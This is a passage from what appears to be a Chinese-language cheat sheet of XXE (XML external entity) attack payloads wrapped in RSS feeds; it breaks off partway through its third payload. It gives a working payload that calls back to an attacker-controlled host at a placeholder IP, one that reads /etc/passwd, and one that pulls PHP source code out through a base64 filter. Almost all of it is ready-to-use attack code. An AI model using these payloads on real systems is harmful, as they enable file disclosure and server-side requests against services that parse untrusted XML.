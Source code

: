 对攻击者服务器发起简单的HTTP请求：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### Read file

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### Read source code

使用 PHP base64 过滤器

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
```